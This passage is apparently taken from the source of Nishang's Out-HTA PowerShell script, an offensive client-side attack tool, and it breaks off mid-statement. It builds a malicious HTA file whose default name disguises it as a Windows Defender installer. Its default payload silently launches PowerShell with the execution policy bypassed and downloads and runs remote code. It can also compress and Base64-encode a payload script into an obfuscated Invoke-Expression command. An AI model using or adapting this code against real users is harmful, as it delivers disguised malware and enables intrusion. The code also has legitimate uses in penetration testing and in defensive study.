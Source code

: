 ```  
.LINK
http://www.labofapenetrationtester.com/2014/11/powershell-for-client-side-attacks.html
https://github.com/samratashok/nishang
#>


    [CmdletBinding()] Param(
        
        [Parameter(Position = 0, Mandatory = $False)]
        [String]
        $Payload,
        
        [Parameter(Position = 1, Mandatory = $False)]
        [String]
        $PayloadURL,

        [Parameter(Position = 2, Mandatory = $False)]
        [String]
        $PayloadScript,
        
        [Parameter(Position = 3, Mandatory = $False)]
        [String]
        $Arguments,


        [Parameter(Position = 4, Mandatory = $False)]
        [String]
        $HTAFilePath="$pwd\WindDef_WebInstall.hta"


    )
    
    if(!$Payload)
    {
        $Payload = "powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString('$PayloadURL'));$Arguments"
    }
   
    
    if($PayloadScript)
    {
        #Logic to read, compress and Base64 encode the payload script.
        $Enc = Get-Content $PayloadScript -Encoding Ascii
    
        #Compression logic from http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html
        $ms = New-Object IO.MemoryStream
        $action = [IO.Compression.CompressionMode]::Compress
        $cs = New-Object IO.Compression.DeflateStream ($ms,$action)
        $sw = New-Object IO.StreamWriter ($cs, [Text.Encoding]::ASCII)
        $Enc | ForEach-Object {$sw.WriteLine($_)}
        $sw.Close()
    
        # Base64 encode stream
        $Compressed = [Convert]::ToBase64String($ms.ToArray())
    
        $command = "Invoke-Expression `$(New-Object IO.StreamReader (" +

        "`$(New-Object IO.Compression.DeflateStream (" +

        "`$(New-Object IO.MemoryStream (,"+

        "`$([Convert]::FromBase64String('$Compressed')))), " +
```